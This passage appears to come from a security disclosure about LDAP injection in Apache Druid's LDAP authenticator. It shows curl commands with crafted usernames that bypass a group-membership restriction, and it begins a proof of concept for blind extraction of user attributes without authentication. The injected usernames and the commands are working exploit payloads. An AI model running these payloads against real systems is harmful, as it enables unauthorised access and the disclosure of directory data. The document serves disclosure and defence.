 ```shell
<pre>    Unauthorized</pre></p><hr><a href="http://eclipse.org/jetty">Powered by Jetty:// 9.4.12.v20180830</a><hr/>

</body>
</html>
```

That's expected because Druid is configured to allow only members of `users` group to log in. But when I use `admin1)(uid=*))(|(uid=*` as the username and the valid `admin1`'s password, the access is granted:

```shell
$ curl -i -u 'admin1)(uid=*))(|(uid=*:admin1' http://127.0.0.1:8888/druid/coordinator/v1/isLeader
HTTP/1.1 200 OK
Date: Sun, 22 Mar 2020 15:55:36 GMT
Date: Sun, 22 Mar 2020 15:55:36 GMT
Content-Type: application/json
Vary: Accept-Encoding, User-Agent
Server: Jetty(9.4.12.v20180830)
Content-Length: 15

{"leader":true}
```

That's because the user search filter was `(&(uid=admin1)(uid=*))(|(uid=*)(memberof=cn=users,dc=example,dc=org))` in this case. That's actually 2 filters: `(&(uid=admin1)(uid=*))` and `(|(uid=*)(memberof=cn=users,dc=example,dc=org))`. Only the first one, which searches for an entry with `uid=admin1` regardless of group membership, is evaluated.

## PoC 2: Information disclosure

It's possible to retrieve any attribute value of any user from the LDAP server integrated into the vulnerable Apache Druid instance. No authentication is needed. Blind LDAP injection technique can be used to do this.

The LDAP authentication has 2 steps. First, the LDAP query with provided username included in the user search filter is executed. If no entry is found, the error is sent back to the client. If an entry is found, it's used to bind (authenticate) to the LDAP server (along with the password provided in the request). If this bind request isn't successful, a different error is returned to the client. What is important here is that the client can distinguish between the search query returning 0 entries and failed LDAP bind request (search query returning at least one entry).

In this PoC, I'll show how to retrieve the `mail` attribute value of `admin1` user.

As stated above, the client can distinguish whether the search query has returned something or not. Let's see two examples:

```shell
$ curl -i -u '*)(uid=*))(|(uid=*:doesnt_matter' http://127.0.0.1:8888/druid/coordinator/v1/isLeader
HTTP/1.1 401 User authentication failed username[*)(uid=*))(|(uid].
```

```shell
$ curl -i -u 'uid_which_doesnt_exist_for_sure)(uid=*))(|(uid=*:doesnt_matter' http://127.0.0.1:8888/druid/coordinator/v1/isLeader
HTTP/1.1 401 Unauthorized
```
